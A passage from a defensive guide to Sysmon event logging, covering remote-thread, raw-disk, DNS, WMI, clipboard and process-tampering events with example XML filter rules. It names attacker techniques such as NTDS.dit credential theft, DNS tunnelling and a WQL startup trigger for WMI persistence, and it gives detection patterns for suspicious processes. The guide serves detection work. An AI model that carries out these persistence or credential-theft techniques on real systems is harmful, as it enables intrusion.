**Important Limitation**: CreateRemoteThread() is not the only API for creating remote threads. Attackers may use alternative methods like:
* NtCreateThreadEx()
* RtlCreateUserThread()
* QueueUserAPC()
* Other undocumented APIs

Sysmon only monitors CreateRemoteThread(), so this event type alone does not guarantee detection of all process injection. It should be combined with other event types (Process Access, Image Loading) for comprehensive coverage.


When reviewing CreateRemoteThread events, prioritize:

**1. Unknown Source Processes**
* Any SourceImage you don't recognize or that isn't a system process
* Processes running from temp directories or user folders
* Unsigned or suspicious executables

**2. Injection into Critical Processes**
* Threads created in explorer.exe, lsass.exe, or other critical system processes
* Especially suspicious if the source is not a system process

**3. Unusual StartModule or StartAddress**
* StartModule not pointing to legitimate system DLLs
* StartAddress in unusual memory regions
* StartFunction that doesn't match expected behavior

**4. Script Engines or Office Apps as Source**
* powershell.exe, cscript.exe, wscript.exe creating remote threads
* WINWORD.EXE, EXCEL.EXE injecting into other processes (very suspicious)

**5. Correlation with Other Events**
* Cross-reference with Process Access events for the same target
* Check if the source process was recently created (staging malware)




After baselining, exclude verified legitimate uses of CreateRemoteThread:

```xml
<Sysmon schemaversion="4.22">
  <CheckRevocation/>
    <EventFiltering>
      <RuleGroup name="" groupRelation="or">
        <CreateRemoteThread onmatch="exclude">
          <!--The process activity of those in the list should be monitored since an-->
          <!--attacker may host his actions in one of these to bypass detection.-->
           <TargetImage condition="end with">
             Google\Chrome\Application\chrome.exe
            </TargetImage>
            <SourceImage condition="is">
              C:\Windows\System32\wbem\WmiPrvSE.exe
            </SourceImage>
            <SourceImage condition="is">
              C:\Windows\System32\svchost.exe
            </SourceImage>
            <SourceImage condition="is">
              C:\Windows\System32\wininit.exe
            </SourceImage>
            <SourceImage condition="is">
              C:\Windows\System32\csrss.exe
            </SourceImage>
            <SourceImage condition="is">
              C:\Windows\System32\services.exe
            </SourceImage>
            <SourceImage condition="is">
              C:\Windows\System32\winlogon.exe
            </SourceImage>
            <SourceImage condition="is">
              C:\Windows\System32\audiodg.exe
            </SourceImage>
            <StartModule condition="is">
              C:\windows\system32\kernel32.dll
            </StartModule>
        </CreateRemoteThread>
        </RuleGroup>
    </EventFiltering>
</Sysmon>
```

## Raw Access Read


Sysmon will log **EventID 9** for any process attempting to read directly from a storage device, bypassing filesystem restrictions. This is a **low-volume, extremely high-value event type** that should almost always log all occurrences. Raw disk access is rare in normal operations and highly indicative of credential theft or anti-forensics activity.


Raw access read bypasses the Windows filesystem layer to read data directly from disk. In normal operations, only specialized software performs this action:
* Drive imaging tools (forensic software)
* Backup software performing sector-level backups
* Disk repair and recovery utilities

Attackers use raw disk access for critical attack objectives:

**Credential Harvesting on Windows**: Direct disk access allows attackers to bypass file locks and permissions to steal:
* **NTDS.dit** (Active Directory database on Domain Controllers) - Contains password hashes for all domain accounts
* **SAM Registry Hive** - Local user account password hashes
* **SYSTEM Registry Hive** - Needed to decrypt SAM hashes

**Credential Harvesting on Linux**: Raw block device access to steal:
* Shadow password files
* SSH private keys
* Credential stores and key material

**Anti-Forensics**: Reading raw disk to:
* Locate and wipe evidence from unallocated space
* Access deleted files
* Manipulate filesystem metadata

**Data Theft**: Bypassing filesystem permissions to access protected files.

**MITRE ATT&CK Mapping**:
* **T1003.002 - OS Credential Dumping: Security Account Manager** - SAM hive theft
* **T1003.003 - OS Credential Dumping: NTDS** - NTDS.dit extraction
* **T1006 - Direct Volume Access** - Raw disk access technique
* **T1561 - Disk Wipe** - Anti-forensics using raw access


Raw disk access is extremely rare:
* Normal applications use filesystem APIs, not raw disk access
* Even most administrative tools don't require raw access
* Typical systems generate 0-5 events per day, often zero
* Events usually come from legitimate backup or imaging software

This makes raw access read ideal for **logging everything** with minimal or no exclusions.


The recommended approach is simple: **log all raw access read events**. The volume is so low that filtering provides minimal benefit and risks missing critical detections.

On systems with frequent legitimate imaging or backup operations, you may exclude those specific tools by full path after verification.

The fields for the event are:

* **RuleName**: Name of rule that triggered the event

* **UtcTime**: Time in UTC when event was created

* **ProcessGuid**: Process GUID of the process that conducted reading operations from the drive

* **ProcessId**: Process ID used by the OS to identify the process that conducted reading operations from the drive

* **Image**: File path of the process that conducted reading operations from the drive

* **Device**: Target device


When reviewing raw access read events, **investigate every occurrence** unless it's from verified legitimate software:

**1. Unknown Processes**: Any process you don't recognize performing raw disk access should be investigated immediately.

**2. Suspicious Processes**:
* powershell.exe, cmd.exe, or scripting engines with raw disk access
* Processes from temp directories or user folders
* Recently created processes accessing raw disk

**3. Timing Correlation**:
* Raw disk access shortly after suspicious process creation
* Access during off-hours or immediately after compromise indicators
* Multiple raw access events in sequence

**4. Targeted Devices**:
* Access to system drive (C:\) partitions
* Domain controller disk access (potential NTDS.dit theft)

**5. Known Attack Tools**:
* ntdsutil.exe used outside of maintenance windows
* Custom or unknown utilities accessing disk


Given the extremely low volume and high detection value, the recommended configuration is simple - log everything:


Raw access read monitoring provides some of the highest-fidelity detections available. Nearly every occurrence outside of known backup windows warrants investigation.

## DNS Query


Sysmon will log **EventID 22** for DNS queries made using the Windows DnsQuery_* API calls in **dnsapi.dll**. DNS query logging provides valuable detection capabilities for command and control communication, data exfiltration via DNS tunneling, and discovery activity. However, volume can be **moderate to high** depending on configuration, requiring careful filtering.


DNS query monitoring provides visibility into:

**Command and Control (C2) Detection**: Attackers must resolve domain names to connect to C2 infrastructure. DNS logs help detect:
* Newly registered domains (often used for C2)
* Domain generation algorithms (DGA) producing random-looking domains
* Fast-flux DNS (rapidly changing IP addresses)
* Connections to known malicious domains

**Data Exfiltration via DNS Tunneling**: Attackers encode data in DNS queries to bypass network controls:
* Unusually long DNS queries (data encoded in subdomain)
* High volume of DNS queries to the same domain
* Suspicious TXT or other record type queries

**Discovery and Reconnaissance**: Attackers query DNS during reconnaissance:
* Internal domain enumeration
* Checking for internet connectivity
* Identifying security controls

**MITRE ATT&CK Mapping**:
* **T1071.004 - Application Layer Protocol: DNS** - C2 over DNS
* **T1568 - Dynamic Resolution** - Domain generation algorithms
* **T1048.003 - Exfiltration Over Alternative Protocol: DNS** - DNS tunneling
* **T1590 - Gather Victim Network Information** - DNS reconnaissance


**Windows API Dependency**: Sysmon only logs DNS queries made through the Windows DnsQuery_* API calls in dnsapi.dll. This is supported on Windows 8.1 and above using ETW (Event Tracing for Windows) functionality.

**What is NOT logged:**
* Programs that perform custom DNS resolution (bypassing Windows APIs)
* Direct queries to DNS servers using raw sockets
* DNS queries from some network security tools
* Queries from applications using alternative DNS libraries

This means DNS query logging provides good coverage for most Windows applications but is not comprehensive for all DNS activity on a system.


DNS query volume varies significantly:
* **High-volume environments**: Web browsing, cloud applications, and SaaS usage generate thousands of queries per hour
* **Lower-volume environments**: Servers or systems with limited internet access may have manageable DNS query counts

**Two configuration approaches:**

**Approach 1 - Exclusion-Based (Recommended)**: Log all DNS queries but exclude high-volume, known-good domains (Microsoft, Google, CDNs). This provides good visibility while keeping volume manageable.

**Approach 2 - Targeted Includes**: Only log queries from specific suspicious processes or to specific suspicious domains. This minimizes volume but may miss novel threats.

The fields for the event are:

* **RuleName**: Name of rule that triggered the event.

* **UtcTime**: Time in UTC when event was created

* **ProcessGuid**: Process Guid of the process that made the DNS query

* **ProcessId**: Process ID of the process that made the DNS query

* **QueryName**: DNS name that was queries

* **QueryStatus**: Query result status code

* **QueryResults**: Query results

* **Image**: File path of the process that made the DNS query

When reviewing DNS query events, prioritize:

**1. DGA-Like Domains**: Random-looking, algorithmically generated domain names (long strings of consonants, numeric patterns)

**2. Newly Registered Domains**: Domains registered within the last 30-90 days (cross-reference with threat intelligence)

**3. Unusual TLDs**: Uncommon top-level domains often abused for C2 (.tk, .pw, .cc, etc.)

**4. Long DNS Queries**: QueryName exceeding 50-100 characters may indicate DNS tunneling

**5. High Query Volume to Single Domain**: Many queries to the same domain in short timeframe (potential tunneling or beaconing)

**6. DNS Queries from Unusual Processes**: System utilities, Office applications, or scripts making DNS queries

**7. Known Malicious Domains**: Match against threat intelligence feeds


Exclude known benign, high-volume destinations to focus on unknown or suspicious domains. This is a high-volume event type, so experimentation and environment-specific tuning is essential.

**Community Resources**: Excellent examples can be found at https://github.com/olafhartong/sysmon-modular/tree/master/22_dns_query

Example configuration excluding known update and telemetry domains:

```xml
<Sysmon schemaversion="4.22">
   <!-- special thanks to @SwiftOnSecurity for this -->
   <HashAlgorithms>*</HashAlgorithms>
   <CheckRevocation/>
   <EventFiltering>
      <RuleGroup name="" groupRelation="or">
      <DnsQuery onmatch="exclude">
      <!-- Browser Update Domains-->

      <!--Mozilla-->
      <QueryName condition="end with">
         .mozaws.net
      </QueryName>
      <QueryName condition="end with">
         .mozilla.com
      </QueryName>
      <QueryName condition="end with">
         .mozilla.net
      </QueryName>
      <QueryName condition="end with">
         .mozilla.org
      </QueryName>
         
      <!--Google-->
      <QueryName condition="is">
         clients1.google.com
      </QueryName>
      <QueryName condition="is">
         clients2.google.com
      </QueryName>
      <QueryName condition="is">
         clients3.google.com
      </QueryName>
      <QueryName condition="is">
         clients4.google.com
      </QueryName>
      <QueryName condition="is">
         clients5.google.com
      </QueryName>
      <QueryName condition="is">
         clients6.google.com
      </QueryName>
      <QueryName condition="is">
         safebrowsing.googleapis.com
      </QueryName>
         
      <!-- Microsoft Domains -->
      <!--Microsoft: Doesn't appear to host customer content or subdomains-->
      <QueryName condition="end with">
         -pushp.svc.ms
      </QueryName> 
      <QueryName condition="end with">
         .b-msedge.net
      </QueryName> 
      <!-- Microsoft | Microsoft default exclusion -->
      <QueryName condition="end with">
         .bing.com
      </QueryName> 
      <QueryName condition="end with">
         .hotmail.com
      </QueryName>
      <QueryName condition="end with">
         .live.com
      </QueryName>
      <QueryName condition="end with">
         .live.net
      </QueryName>
      <QueryName condition="end with">
         .s-microsoft.com
      </QueryName>
      <QueryName condition="end with">
         .microsoft.com
      </QueryName>
      <QueryName condition="end with">
         .microsoftonline.com
      </QueryName>
      <QueryName condition="end with">
         .microsoftstore.com
      </QueryName>
      <QueryName condition="end with">
         .ms-acdc.office.com
      </QueryName> 
      <QueryName condition="end with">
         .msedge.net
      </QueryName>
      <QueryName condition="end with">
         .msn.com
      </QueryName>
      <QueryName condition="end with">
         .msocdn.com
      </QueryName>
      <QueryName condition="end with">
         .skype.com
      </QueryName>
      <QueryName condition="end with">
        .skype.net
      </QueryName>
      <QueryName condition="end with">
         .windows.com
      </QueryName>
      <QueryName condition="end with">
         .windows.net.nsatc.net
      </QueryName>
      <QueryName condition="end with">
         .windowsupdate.com
      </QueryName>
      <QueryName condition="end with">
         .xboxlive.com
      </QueryName>
      <QueryName condition="is">
         login.windows.net
      </QueryName>
      </DnsQuery>
    </RuleGroup>
  </EventFiltering>
</Sysmon>
```

## WMI Events


Sysmon will log **EventID 19** (WmiEventFilter), **EventID 20** (WmiEventConsumer), and **EventID 21** (WmiEventConsumerToFilter) for Windows Management Instrumentation (WMI) event subscriptions. WMI event monitoring is a **low-volume, extremely high-value event type** that should almost always log all occurrences. WMI persistence is a sophisticated technique heavily used by advanced attackers and rarely by legitimate software outside of enterprise management tools.


WMI events have been used legitimately for over a decade by vendors and enterprise users to automate actions on systems. However, attackers leverage the same capability for persistence and automation, making this a critical detection opportunity.

WMI persistence is attractive to attackers because:

**Fileless Persistence**: WMI event subscriptions are stored in the WMI repository (CIM database), not as files on disk. This makes them harder to detect with traditional file-based security tools and harder to find during incident response.

**SYSTEM-Level Execution**: Permanent WMI event subscriptions always run as SYSTEM, providing attackers with the highest privileges regardless of the account used to create the subscription.

**Survives Reboots**: Permanent subscriptions persist across system restarts, providing reliable long-term persistence.

**Rare in Normal Environments**: Outside of enterprise system management tools (SCCM, monitoring software), WMI event subscriptions are uncommon, making detections high-fidelity.

**APT Tradecraft**: WMI persistence has been documented in attacks by APT28, APT29, and numerous other sophisticated threat actors.

**MITRE ATT&CK Mapping**:
* **T1546.003 - Event Triggered Execution: Windows Management Instrumentation Event Subscription** - Primary technique
* **T1047 - Windows Management Instrumentation** - General WMI abuse


WMI events occur when specific Event Class instances are created or modified in the WMI Model. An attacker can monitor for these events and trigger actions when they occur by using subscriptions.

There are two types of WMI Event Subscriptions:

-   **Temporary** - Subscription is active as long as the process that created
    the subscription is active (They run under the privilege of the process)

-   **Permanent** - Subscription is stored in the CIM Database and is active
    until removed from it (They always run as SYSTEM)

All event subscriptions have three components:

-   **Filter** - WQL Query for the events we want

-   **Consumer** - An action to take upon triggering the filter

-   **Binding** - Registers a filter to a consumer

The filter and consumer are created individually and then registered together.
The actions that Sysmon filters on are those for permanent events. Sysmon will
only log **ActiveScript** and **CommandLine** consumers since these are the ones
abused by attackers.


WMI event subscriptions are extremely rare in typical environments:
* Most systems have zero WMI event subscriptions
* Legitimate uses are limited to enterprise management tools (SCCM, monitoring agents)
* Typical environments generate 0-5 WMI events per month, often zero
* Any activity is noteworthy and warrants review

This extremely low volume makes WMI event monitoring ideal for a **log-all approach** with minimal or no exclusions.


When reviewing WMI event logs, **investigate every occurrence** unless it's from verified enterprise management software:

**1. All Three Event IDs Together**
* WMI persistence requires all three components: Filter (ID 19), Consumer (ID 20), and Binding (ID 21)
* Look for these event IDs occurring close together in time
* A complete attack chain will have all three

**2. Consumer Destination (Most Critical)**
* The **Destination** field in EventID 20 shows what command or script will execute
* Look for:
  - PowerShell commands, especially encoded commands
  - CMD.exe with suspicious arguments
  - Script execution (cscript.exe, wscript.exe)
  - Downloading or executing files from the internet
  - Credential dumping tools or suspicious utilities

**3. Suspicious Filter Queries**
* EventID 19 shows the WQL query that triggers the consumer
* Common attacker patterns:
  - Triggers on system startup: `SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'`
  - Triggers on user logon events
  - Triggers on specific process starts
  - Time-based triggers for periodic execution

**4. Unusual User Context**
* WMI subscriptions require administrator privileges to create
* Investigate subscriptions created by:
  - Non-administrative user accounts (shouldn't be possible)
  - Service accounts not associated with management tools
  - Recently compromised accounts
  - Accounts with suspicious recent activity

**5. Namespace Analysis**
* Most legitimate WMI subscriptions use `Root\Subscription` namespace
* **Important Limitation**: Sysmon only logs subscriptions in `Root\Subscription`, not `Root` namespace
* Attackers aware of this may use the `Root` namespace to evade detection
* This gap is covered by Windows native WMI-Activity/Operational logs (EventID 5861)

**6. Correlation with Other Events**
* WMI subscription creation shortly after:
  - Initial compromise indicators
  - Suspicious PowerShell or CMD execution
  - Lateral movement activity
  - Privilege escalation


Fields for the Filter creation, modification, or deletion are:

-   **RuleName**: Rule name for filter

-   **EventType**: Will always be *WmiFilterEvent*

-   **UtcTime**: Time event happened

-   **Operation**: Created, modified or deleted

-   **User**: User that performed the action

-   **EventNamespace**: WMI Namespace where object was created

-   **Name**: Name of the filter

-   **Query**: Query defined for the filter

The fields for Consumer creation, modification, or deletion are:

-   **RuleName**: Rule name for filter

-   **EventType**: Will always be *WmiConsumerEvent*

-   **UtcTime**: Time event happened

-   **Operation**: Created, modified, or deleted

-   **User**: User that performed the action

-   **Name**: Name of the consumer

-   **Type**: Type of consumer

-   **Destination**: Command or Script being executed

The fields for filter to consumer binding are:

-   **RuleName**: Rule name for filter

-   **EventType**: Will always be *WmiBindingEvent*

-   **UtcTime**: Time event happened

-   **Operation**: Created, modified, or deleted

-   **User**: User that performed the action

-   **Consumer**: Consumer path in the CIM Database

-   **Filter**: Filter path in the CIM Database

When a Permanent Event Subscription is created, an EventID **5861** in
**Microsoft-Windows-WMI-Activity/Operational** is created in **Windows 2012 R2,
Windows 2016,** and **Windows 10 Pro/Enterprise**.

The event includes the Query and Consumer object information for the
subscription in its data.


Given the extremely low volume and extremely high detection value, the recommended configuration is simple - **log everything**:

```XML
<Sysmon schemaversion="4.22">
   <HashAlgorithms>*</HashAlgorithms>
   <CheckRevocation/>
   <EventFiltering>
      <RuleGroup name="" groupRelation="or">
         <WmiEvent onmatch="exclude">
            <!-- Log all WMI events - volume is extremely low -->
            <!-- Only exclude specific enterprise management tools if needed -->
         </WmiEvent>
      </RuleGroup>
   </EventFiltering>
</Sysmon>
```

**Optional Exclusions**: In environments with enterprise management software (SCCM, monitoring agents), you may choose to exclude specific known-good subscriptions. However, given the low volume, it's often better to log everything and filter in your SIEM.

If you must exclude, use the **Name** field to exclude specific subscription names after verification:

```XML
<WmiEvent onmatch="exclude">
   <!-- Example: Exclude verified SCCM WMI subscriptions -->
   <Operation condition="is">Created</Operation>
   <Consumer condition="contains">SCNotification</Consumer>
</WmiEvent>
```


**Sysmon Gap**: Sysmon will not capture components of permanent events created in the **Root** namespace, only under **Root/Subscription**. Attackers aware of this limitation may use the `Root` namespace to evade detection.

**Recommended Complementary Logging**: Enable Windows native **WMI-Activity/Operational** logs (EventID 5861) which do capture events created in the **Root** namespace. This provides:
* Coverage for Root namespace subscriptions (fills Sysmon gap)
* Temporary event subscriptions (not logged by Sysmon)
* WMI query errors (useful for detecting reconnaissance)
* Provider loading activity

**Detection Strategy**: Use both Sysmon WMI events and native Windows WMI-Activity logs for comprehensive coverage. The combination ensures attackers cannot evade detection by using alternative namespaces or temporary subscriptions.

## Clipboard Capture


Sysmon will log **EventID 24** when applications store text in the clipboard. This capability was added in Sysmon version 12.0 with schema 4.40. Clipboard monitoring is a **low-volume, high-sensitivity event type** that provides unique visibility into data theft but comes with significant privacy and security considerations that require careful deployment planning.


Clipboard monitoring detects data theft techniques that are difficult to observe through other telemetry:

**Credential Theft via RDP/Remote Sessions**: Attackers and penetration testers commonly:
* Copy credentials from password managers on their local machine
* Paste credentials into RDP sessions to compromised servers
* Transfer authentication tokens or API keys via clipboard
* Move data between compromised systems using clipboard redirection

**Data Exfiltration**: Attackers use the clipboard to stage data for exfiltration:
* Copy sensitive documents, code, or configuration data
* Transfer small amounts of data between systems via remote sessions
* Exfiltrate data from environments where file transfer is restricted

**Lateral Movement Evidence**: Clipboard content can reveal:
* Commands being copy-pasted across multiple systems
* Credentials being reused across the environment
* PowerShell scripts or commands being staged for execution

**MITRE ATT&CK Mapping**:
* **T1115 - Clipboard Data** - Accessing clipboard for credential or data theft
* **T1056.001 - Input Capture: Keylogging** - Related technique for capturing user input
* **T1021.001 - Remote Services: Remote Desktop Protocol** - RDP sessions where clipboard is commonly used


**Critical Privacy Warning**: Clipboard capture is an **extremely sensitive capability** that can expose private, confidential, and legally protected information. Clipboard data may contain:
* Passwords, API keys, and authentication tokens
* Personal identifiable information (PII)
* Protected health information (PHI)
* Financial data, credit card numbers
* Confidential business information
* Private communications

**Data Protection Requirements:**

Clipboard data is stored as files in the archive directory (same location as File Delete archived files), **NOT in the event log**. The archive directory is protected by SYSTEM-level ACLs:
* Only SYSTEM account can access the files
* Must use PsExec or similar tool to read: `PsExec.exe -sid cmd`
* Files are named by their hash value
* Encryption at rest is critical if storing sensitive clipboard data

**Legal and Compliance Risks:**
* May violate privacy laws (GDPR, CCPA) if not properly disclosed
* Could capture attorney-client privileged communications
* May require consent depending on jurisdiction
* Data retention policies must be carefully considered
* Access controls and audit logging are essential


**Recommended Use Cases:**
* **RDP-enabled servers** exposed to untrusted networks (bastion hosts, jump servers)
* **Privileged access workstations** (PAWs) used for administrative tasks
* **High-value targets** where credential theft is a primary concern
* **Honeypot systems** where any clipboard activity is inherently suspicious
* **Incident response** during active investigations (temporary deployment)

**NOT Recommended:**
* **General user workstations** - Privacy risks far outweigh detection value
* **Developer workstations** - Will capture code, credentials, and sensitive data constantly
* **Environments without strong data protection controls**
* **Systems where users are not informed** about clipboard monitoring

**Critical Requirement**: Users and administrators **must be informed** that clipboard monitoring is active. Accidental capture of sensitive data in legitimate workflows is common, particularly in RDP environments.


Clipboard capture volume varies significantly:
* **RDP jump servers**: Moderate volume (10-50 events per day per active session)
* **Interactive user workstations**: High volume (hundreds of events per day)
* **Servers without interactive sessions**: Very low volume (near zero)

The volume depends entirely on user behavior - how often they copy and paste text.


When enabled, Sysmon monitors the Windows clipboard API and logs whenever text is stored:
1. Application writes text to clipboard
2. Sysmon intercepts the clipboard write
3. Event is logged with metadata (process, session, client info)
4. Clipboard text is saved to archive directory as a file (named by hash)
5. EventID 24 references the file by hash

**Important**: Only **text** clipboard data is captured. Images, files, and other clipboard formats are not logged.

**Enabling Clipboard Capture:**
Add the `<CaptureClipboard/>` element under the main `<Sysmon>` element in your configuration:

```xml
<Sysmon schemaversion="4.40">
  <CaptureClipboard />
  <ArchiveDirectory>SecureClipboardArchive</ArchiveDirectory>
  <!-- Event filtering rules follow -->
</Sysmon>
```

Without `<CaptureClipboard/>`, clipboard events are not generated even if filtering rules are present.


When reviewing clipboard capture events, prioritize investigation of:

**1. RDP Session Clipboard Activity**
* Clipboard usage during remote desktop sessions (Session field != 0)
* ClientInfo shows remote hostname and IP address
* Particularly suspicious during off-hours or from unexpected IP ranges

**2. Suspicious Processes Accessing Clipboard**
* PowerShell, CMD, scripting engines writing to clipboard
* Processes from temp directories or unusual locations
* Malware sometimes uses clipboard for C2 communication or data staging

**3. Session Analysis**
* Session field indicates session type:
  - Session 0: System/service context (very unusual for clipboard use)
  - Session 1+: Interactive or RDP sessions
* Correlate clipboard activity with logon events to identify user

**4. Patterns Indicating Credential Theft**
* Multiple clipboard writes in quick succession during RDP session
* Clipboard activity immediately after connecting to RDP session
* Review archived clipboard files for credential patterns (manually, with care)

**5. Data Exfiltration Indicators**
* Large amounts of clipboard activity during suspected compromise
* Clipboard use correlating with network connections to external IPs
* Repeated clipboard writes of similar content

**6. Unexpected Clipboard Sources**
* Services or system processes writing to clipboard (unusual)
* Clipboard activity on servers that should have minimal interactive use


The clipboard capture event fields are:

* **RuleName**: Name of rule that triggered the event
* **UtcTime**: Time in UTC when event was created
* **ProcessGuid**: Process GUID of the process that stored text in clipboard
* **ProcessId**: Process ID of the process that stored text in clipboard
* **Image**: File path of the process that wrote to the clipboard
* **Session**: Session ID where the process is running (0 = system, 1+ = interactive/remote)
* **ClientInfo**: Contains session username, and for remote sessions: originating hostname and IP address
* **Hashes**: Hash of the clipboard text file (also the filename in archive directory)
* **Archived**: Status indicating whether text was successfully stored in archive directory (`true` or `false`)


**Example 1: Capture All Clipboard Activity (High Privacy Risk)**

This configuration logs all clipboard events with no filtering:

```xml
<Sysmon schemaversion="4.40">
  <HashAlgorithms>SHA256</HashAlgorithms>
  <CheckRevocation />
  <CaptureClipboard />
  <ArchiveDirectory>SecureClipboardArchive</ArchiveDirectory>
  <EventFiltering>
      <RuleGroup name="" groupRelation="or">
         <ClipboardChange onmatch="exclude">
            <!-- Log everything - use only on dedicated RDP jump servers -->
         </ClipboardChange>
      </RuleGroup>
  </EventFiltering>
</Sysmon>
```

**Recommended only for**: Jump servers, PAWs, honeypots where all clipboard use is monitored by design.

**Example 2: Monitor Only Remote RDP Sessions**

Capture clipboard activity only during RDP sessions, not local interactive sessions:

```xml
<Sysmon schemaversion="4.40">
  <HashAlgorithms>SHA256</HashAlgorithms>
  <CaptureClipboard />
  <ArchiveDirectory>SecureClipboardArchive</ArchiveDirectory>
  <EventFiltering>
      <RuleGroup name="" groupRelation="or">
         <ClipboardChange onmatch="include">
            <!-- Capture rdpclip.exe (RDP clipboard redirection process) -->
            <Image condition="end with">rdpclip.exe</Image>
         </ClipboardChange>
      </RuleGroup>
  </EventFiltering>
</Sysmon>
```

This focuses on RDP clipboard transfers, reducing noise from local clipboard use.

**Example 3: Monitor Suspicious Processes Only**

Capture clipboard use by processes commonly abused by attackers:

```xml
<Sysmon schemaversion="4.40">
  <HashAlgorithms>SHA256</HashAlgorithms>
  <CaptureClipboard />
  <ArchiveDirectory>SecureClipboardArchive</ArchiveDirectory>
  <EventFiltering>
      <RuleGroup name="" groupRelation="or">
         <ClipboardChange onmatch="include">
            <!-- Scripting engines -->
            <Image condition="end with">powershell.exe</Image>
            <Image condition="end with">cmd.exe</Image>
            <Image condition="end with">cscript.exe</Image>
            <Image condition="end with">wscript.exe</Image>

            <!-- RDP clipboard -->
            <Image condition="end with">rdpclip.exe</Image>

            <!-- Processes from suspicious locations -->
            <Image condition="contains">\Temp\</Image>
            <Image condition="contains">\AppData\Local\Temp\</Image>
         </ClipboardChange>
      </RuleGroup>
  </EventFiltering>
</Sysmon>
```

**Example 4: Exclude Known Noisy Applications**

Start with broad coverage but exclude applications that generate excessive noise:

```xml
<Sysmon schemaversion="4.40">
  <HashAlgorithms>SHA256</HashAlgorithms>
  <CaptureClipboard />
  <ArchiveDirectory>SecureClipboardArchive</ArchiveDirectory>
  <EventFiltering>
      <RuleGroup name="" groupRelation="or">
         <ClipboardChange onmatch="exclude">
            <!-- Exclude known applications with high clipboard use -->
            <Image condition="is">C:\Program Files\Microsoft Office\root\Office16\WINWORD.EXE</Image>
            <Image condition="is">C:\Program Files\Microsoft Office\root\Office16\EXCEL.EXE</Image>
            <Image condition="contains">\Microsoft VS Code\</Image>

            <!-- Exclude browsers -->
            <Image condition="contains">\Google\Chrome\Application\chrome.exe</Image>
            <Image condition="contains">\Mozilla Firefox\firefox.exe</Image>
         </ClipboardChange>
      </RuleGroup>
  </EventFiltering>
</Sysmon>
```


**Hyper-V and RDP Console Exposure**: In Hyper-V environments where Sysmon is configured for clipboard capture, **selecting a VM console window from Hyper-V Manager** can trigger clipboard events because Hyper-V uses RDP for displaying VM UI. This can accidentally expose clipboard contents from the host system. Administrators must be aware of this behavior.

**Example Event**: RDP clipboard capture from Hyper-V console session:

```xml
<EventData>
  <Data Name="Image">C:\Windows\System32\rdpclip.exe</Data>
  <Data Name="Session">1</Data>
  <Data Name="ClientInfo">user: acmelabs\Admin ip: FE80::013E:52B8:0C83:3DE3 hostname: DESKTOP-LH0AJLB</Data>
  <Data Name="Archived">true</Data>
</EventData>
```

**Clipboard Data Is Not in Event Log**: The actual clipboard text is stored in the archive directory as files, not in the event log. This means:
* SIEM ingestion captures metadata only, not clipboard content
* To review clipboard content, you must access the archive directory with SYSTEM privileges
* Clipboard files must be secured with encryption at rest and access controls
* Retention policies for clipboard files must be defined and enforced

**No Image/File Capture**: Only text clipboard data is captured. Copy-pasting files, images, or other non-text formats does not generate EventID 24.


1. **Minimize Deployment Scope**: Only enable on systems where the detection value clearly outweighs privacy risks
2. **User Notification**: Inform users and administrators that clipboard monitoring is active
3. **Secure Archive Directory**:
   - Use strong ACLs (SYSTEM-only by default is good)
   - Encrypt at rest
   - Implement retention policies
   - Monitor access to clipboard archive files
4. **Legal Review**: Consult legal/compliance teams before deployment
5. **Regular Review**: Periodically verify clipboard monitoring is still necessary
6. **Incident Response**: Consider enabling temporarily during active investigations rather than continuous monitoring
7. **Data Minimization**: Use targeted filtering to capture only necessary clipboard events
8. **Audit Access**: Log and monitor any access to archived clipboard files


Clipboard archive files accumulate over time. Implement a retention policy:
* Define maximum retention period (e.g., 30 days, 90 days)
* Automate cleanup of old clipboard files
* Document retention policy for compliance
* Ensure cleanup process preserves files needed for active investigations

Example PowerShell cleanup script (run as SYSTEM):
```powershell
$archivePath = "C:\SecureClipboardArchive"
$retentionDays = 30
Get-ChildItem -Path $archivePath -File |
    Where-Object { $_.LastWriteTime -lt (Get-Date).AddDays(-$retentionDays) } |
    Remove-Item -Force
```


Clipboard capture (EventID 24) is a powerful but sensitive capability:
* **Use sparingly**: RDP jump servers, PAWs, honeypots
* **Privacy first**: Consider legal, ethical, and privacy implications
* **Inform users**: Transparency is essential
* **Secure the data**: Strong access controls and encryption
* **Define retention**: Clear policies for data lifecycle

When deployed appropriately with proper safeguards, clipboard monitoring provides unique visibility into credential theft and data exfiltration during remote sessions.

## Process Image Tampering


Sysmon will log **EventID 25** when a process's original image is replaced in memory or on disk. This is a **low-volume, high-value event type** that detects advanced process injection and evasion techniques. Process tampering events are strong indicators of malicious activity and should almost always be investigated.


Process tampering detects sophisticated evasion techniques where attackers modify process images to hide malicious code:

**Process Hollowing** ([T1055.012](https://attack.mitre.org/techniques/T1055/012/)): The classic technique where an attacker:
1. Creates a legitimate process in suspended state
2. Unmaps the legitimate code from memory
3. Injects malicious code into the process
4. Resumes execution of the now-malicious process

This makes the malicious code appear to be a legitimate process when viewed in task managers or process lists.

**Process Herpaderping** ([detailed here](https://jxy-s.github.io/herpaderping/)): A newer technique that modifies the file on disk after Windows has mapped it into memory but before it executes. This creates a mismatch between what's on disk and what's in memory, evading many security tools.

**Defense Evasion**: Both techniques allow malware to:
* Hide inside legitimate process names
* Bypass application whitelisting
* Evade process-based detections
* Inherit the trust and privileges of the legitimate process

**MITRE ATT&CK Mapping**:
* **T1055.012 - Process Injection: Process Hollowing**
* **T1055 - Process Injection** (general)
* **T1027 - Obfuscated Files or Information** (image tampering as obfuscation)

This capability was added in Sysmon version 13.0 with schema 4.50.


Process tampering is relatively rare:
* Very few legitimate applications modify their image after loading
* Some browsers and development tools trigger this for legitimate reasons
* Typical systems generate 10-50 events per day, mostly from known software
* Most events are from a small set of applications (browsers, IDEs, Electron apps)


The recommended approach: **log all process tampering events** and progressively exclude verified legitimate applications by full path.

**Important Limitation**: Not all process hollowing techniques are detected. Some variations that use different API calls or modify smaller portions of the image may evade detection. This is why layered detection (combining multiple event types) is critical.


When reviewing process tampering events, prioritize investigation of:

**1. Unknown or Unusual Processes**
* Any process you don't recognize being tampered with
* Processes running from temp directories or user folders
* Recently created processes that are immediately tampered with

**2. Tampering of Critical System Processes**
* explorer.exe, svchost.exe, or other long-running system processes
* These are common targets because they provide persistence and trust

**3. Type of Tampering**
* "Image is replaced" is more suspicious than "Image is locked for access"
* Replacement indicates active hollowing or herpaderping
* Locked access may be legitimate security software scanning

**4. Non-Browser/Non-Development Tools**
* Tampering outside of known browsers, IDEs, and Electron apps
* Server systems should rarely see tampering events
* Any tampering on production servers warrants immediate investigation

**5. Timing Correlation**
* Tampering shortly after suspicious process creation
* Multiple tampering events in sequence
* Tampering during off-hours or after compromise indicators

